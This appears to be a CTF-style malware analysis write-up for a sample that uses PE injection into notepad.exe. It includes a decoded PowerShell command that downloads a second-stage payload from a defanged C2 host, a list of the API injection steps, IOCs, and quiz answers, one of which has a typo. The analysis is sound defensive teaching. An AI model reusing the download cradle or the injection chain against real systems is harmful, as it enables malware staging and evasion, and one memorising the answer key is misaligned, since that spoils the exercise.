





## Overview

A malware sample `re4.exe` is provided for static analysis. The goal is to identify the injection technique used, trace the full execution chain, and extract the C2 details hidden inside an obfuscated PowerShell command.

---

## Investigation

### Loading in Ghidra

The sample is loaded into Ghidra for static analysis. The first thing to look for is suspicious API imports — specifically anything related to process creation or memory manipulation.

The import table reveals `CreateProcessA` with `notepad.exe` as the target. Jumping to the call site at `0040106b` shows the `dwCreationFlags` parameter being pushed as **`0x04`** — `CREATE_SUSPENDED`. This means `notepad.exe` is spawned but frozen immediately, its main thread unable to execute until explicitly resumed. This is the classic first step of PE injection.


---

### Encoded PowerShell in PE Strings

Opening the sample in a PE viewer and examining the strings section reveals a base64 encoded PowerShell command. Decoding it produces a dot-separated string — a simple obfuscation trick to evade basic string scanning:


```
I.n.v.o.k.e.-.W.e.b.R.e.q.u.e.s.t. .-.U.r.i. .h.t.t.p.:././.s.o.m.e.c.2...
s.e.r.v.e.r./.e.x.p...e.x.e. .-.O.u.t.F.i.l.e. .c.:.\.\.w.i.n.d.o.w.s.\.\.
t.e.m.p.\.\.e.x.p...e.x.e.
```

Removing the dots gives the clear command:

```zsh
Invoke-WebRequest -Uri hxxp[://]somec2[.]server/exp[.]exe -OutFile c:\windows\temp\exp.exe
```

The malware downloads a second-stage payload `exp.exe` from `somec2[.]server` and drops it into `C:\Windows\Temp\` — a common staging path used to blend in with legitimate temp activity.

---

### NtUnmapViewOfSection

After the download instruction, the sample dynamically loads and calls `NtUnmapViewOfSection` from `ntdll.dll`. This function unmaps (hollows out) the memory of the suspended `notepad.exe` process — removing the legitimate code so the malicious payload can be written in its place.

This is a key indicator of **PE injection** — using a legitimate process as a container for malicious code.

---

### SetThreadContext and ResumeThread

With the target process hollowed and the payload written into the allocated memory, two final APIs complete the injection:

`SetThreadContext` — updates the entry point register (EIP/RIP) of the suspended thread to point at the injected code instead of the original `notepad.exe` entry point.

`ResumeThread` — unfreezes the thread, which now executes the attacker's payload inside the `notepad.exe` process.

The full injection chain:
```
CreateProcessA (notepad.exe, CREATE_SUSPENDED)
    ↓
NtUnmapViewOfSection (hollow out notepad memory)
    ↓
VirtualAllocEx + WriteProcessMemory (write payload)
    ↓
SetThreadContext (redirect entry point)
    ↓
ResumeThread (execute payload as notepad.exe)
````

This technique maps to **T1055.002 — Portable Executable Injection**, where a PE is written directly into another process's memory space rather than using shellcode or DLL injection.

---

## IOCs

|Type|Value|
|---|---|
|File|`re4.exe`|
|File|`exp.exe`|
|Path|`c:\windows\temp\exp[.]exe`|
|Domain|`somec2[.]server`|
|URL|`hxxp[://]somec2[.]server/exp[.]exe`|


<div class="qa-item"> <div class="qa-question-text">Question 1) What is the process that would be first spawned by the sample? And what is the API used?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">notepad.exe, CreateProcessA</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 2) The value 4 has been pushed as a parameter to this API, what does that denote?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">Create_Suspended</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 3) What is the domain that the malware tries to connect?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">somec2.server</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 4) What is the cmdlet used to download the file and what is the path of the file stored?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">invoke-Webrequest, c:\windows\temp\exp.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 5) Just after the file download instructions, a function from ntdll has been loaded and invoked by the sample. What is the function name?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">NtUnmapViewOfSection</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 6) After the allocation of memory and writing the date into the allocated memory. What are the 2 APIs used to update the entry point and resume the thread?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">SetThreadTontext, ResumeThread</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 7) What is the MITRE ID for this technique implemented in this sample?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">T1055.002</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>
